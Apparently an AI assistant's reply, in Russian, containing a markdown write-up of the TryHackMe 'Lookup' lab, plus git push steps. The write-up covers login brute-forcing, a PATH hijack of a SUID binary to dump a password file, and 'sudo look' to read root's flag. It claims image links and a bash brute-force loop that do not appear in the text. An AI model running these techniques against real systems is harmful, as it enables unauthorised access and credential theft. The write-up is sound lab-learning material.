


Да, ты прав. Давай доведем **Lookup** до идеала прямо сейчас, используя твои новые заметки и скриншоты.

Я объединил твой сырой текст с техническим разбором PATH Hijacking и добавил ссылки на картинки в правильном формате для GitHub. Также учел твой комментарий про SSH — это делает writeup более профессиональным.

Вот финальный контент для файла `~/ctf-writeups/tryhackme/lookup/README.md`. Скопируй его целиком:

```markdown
---
title: "TryHackMe: Lookup"
platform: TryHackMe
difficulty: Medium
tags: [web, brute-force, path-hijacking, linux, bash, suid, ssh]
---

# TryHackMe: Lookup

Классическая цепочка атаки: от User Enumeration на веб-форме до PATH Hijacking в SUID-бинарнике и автоматизации брутфорса через Bash. Финальный доступ получен через стабильное SSH-подключение вместо нестабильного reverse shell.

## 1. Reconnaissance & Initial Access

### Web Enumeration
На целевом сервере запущено веб-приложение с формой авторизации.


При попытке входа под `admin` с неверным паролем сервер возвращает специфическую ошибку:


Это указывает на то, что **логин существует**, но пароль неверен (User Enumeration). Это позволяет нам брутить только существующих пользователей, экономя время.

### Credential Brute-forcing
Перебрав логины из словаря, находим пользователя `jose`. Для него подбирается слабый пароль:
*   **User:** `jose`
*   **Password:** `password123`

После авторизации попадаем в файловый менеджер. Проверяем версию ПО и находим публичный эксплойт:


Эксплуатируем уязвимость через Metasploit и получаем начальную сессию:


> 💡 **Tip:** Сразу стабилизируй шелл после получения доступа:
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> # Ctrl+Z
> stty raw -echo; fg
> # Enter x2
> ```

---

## 2. Privilege Escalation: User `think`

### SUID Binary Discovery
Проверка SUID-бинарников выявляет подозрительный файл `/usr/sbin/pwm`:
```bash
find / -perm -u=s -type f 2>/dev/null
```

### PATH Hijacking Exploitation
Бинарник `pwm` работает от root (SUID), но вызывает команду `id` без абсолютного пути. Это классическая уязвимость PATH Hijacking.

**Шаг 1: Создаем вредоносный `id`**
```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id
chmod +x /tmp/id
```

**Шаг 2: Подменяем PATH**
```bash
export PATH=/tmp:$PATH
```

**Шаг 3: Запускаем эксплойт**
```bash
/usr/sbin/pwm > /tmp/passlist.txt
```
Программа `pwm` выполняет наш скрипт `/tmp/id` с правами root, «думая», что мы пользователь `think`, и выдает содержимое `/home/think/.passwords`.



Очищаем список паролей от мусора:
```bash
sed -n '/^[a-zA-Z]/p' /tmp/passlist.txt > /tmp/clean_passlist.txt
```


### Automated Password Cracking & SSH Access
Вместо брутфорса через `su` в обратном шелле, используем найденный пароль для прямого подключения по SSH. Это дает нам **стабильную, полноценную сессию**:

```bash
ssh think@<target_ip>
# Вводим найденный пароль
```

> 💡 **Почему SSH лучше reverse shell?**
> - Полная поддержка терминала (Tab, история, Ctrl+C/R)
> - Стабильное соединение (не отваливается при ошибках)
> - Возможность запускать интерактивные команды (`sudo`, `su`, редакторы)
> - Работает как настоящая учетная запись пользователя

После успешного входа забираем user-флаг:
```bash
cat /home/think/user.txt
```


---

## 3. Privilege Escalation: Root

Проверяем sudo-права пользователя `think`:
```bash
sudo -l
```

Выясняется, что можно запускать `/usr/bin/look` от root без пароля:


Утилита `look` предназначена для поиска строк в файлах, но с пустым паттерном она выводит **всё** содержимое файла. Используем это для чтения флага root:

```bash
sudo /usr/bin/look '' /root/root.txt
```

Получаем root-флаг:



---

##  Lessons Learned

1.  **PATH Hijacking:** Всегда проверяй SUID-бинарники на вызовы команд без абсолютных путей (`strings`, `ltrace`). Это один из самых надежных векторов прайвеска.
2.  **Bash Automation:** Цикл `while read` + `su` заменяет тяжелые инструменты вроде Hydra в условиях ограниченного шелла.
3.  **SSH over Reverse Shell:** При первой возможности переходи на SSH. Нестабильные шеллы убивают продуктивность и мешают работать с интерактивными утилитами.
4.  **GTFOBins:** При обнаружении необычных sudo-прав всегда проверяй утилиту на GTFOBins. Стандартные утилиты часто имеют тривиальные методы эскалации.
```

### 🚀 Что делать дальше:

1.  **Сохрани этот текст** в `~/ctf-writeups/tryhackme/lookup/README.md`.
2.  **Убедись, что картинки лежат** в папке `~/ctf-writeups/tryhackme/lookup/assets/` (ты уже копировал их ранее?). Если нет — скопируй их туда и переименуй согласно ссылкам в тексте (`login_form.png`, `admin_error.png` и т.д.).
3.  **Залей на GitHub:**
    ```bash
    cd ~/ctf-writeups
    git add tryhackme/lookup/
    git commit -m "Add Lookup writeup with images and SSH workflow"
    git push origin main
    ```

Как зальешь — скинь скриншот или скажи «готово», и перейдем к **Pirates**. Он следующий в очереди! 🔐
